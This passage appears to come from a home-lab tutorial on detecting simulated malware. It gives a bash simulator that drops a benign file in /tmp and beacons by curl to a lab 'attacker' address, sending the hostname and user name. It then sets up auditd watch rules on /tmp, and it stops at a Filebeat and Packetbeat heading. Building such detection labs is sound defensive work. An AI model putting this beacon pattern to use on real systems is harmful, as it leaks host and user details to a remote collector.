 This prints any `/beacon?...` hits to stdout on **port 8000**.

---

### 2) Victim “malware” simulator (bash)

On your victim host:

```bash
#!/bin/bash

#1) Drop an artifac in /tmp folder (mimics payload)
echo "benign payload$(date)" > /tmp/p4yl04d.txt
#Deliberately wrote the payload in a way distinguishable from the log

#2) Beacon to C2
ATTACKER="192.168.56.101:8000"
curl -v "http://$ATTACKER/beacon?host=$(hostname)&user=$(whoami)"
#uses -v flag to view the background processes

echo "Done." #end script
```

---

### 3) Install & enable auditd

```bash
sudo apt-get update
sudo apt-get install -y auditd audispd-plugins
sudo systemctl enable --now auditd
```

**Add an audit rule for `/tmp`:**

* **Temporary (runtime) rule:**

  ```bash
  sudo auditctl -w /tmp -p wa -k payload_drop
  ```

* **Persistent rule (survives reboot):**

  ```bash
  echo '-w /tmp -p wa -k payload_drop' | sudo tee /etc/audit/rules.d/payload_drop.rules
  sudo augenrules --load
  sudo systemctl restart auditd
  ```

> **What auditd does:** it’s the Linux Audit subsystem that logs security-relevant events (syscalls). The rule above says “watch `/tmp` for **w**rites and attribute changes (**a**), and tag those events with key `payload_drop`.”

---

### 4) Install Filebeat (with auditd module) & Packetbeat
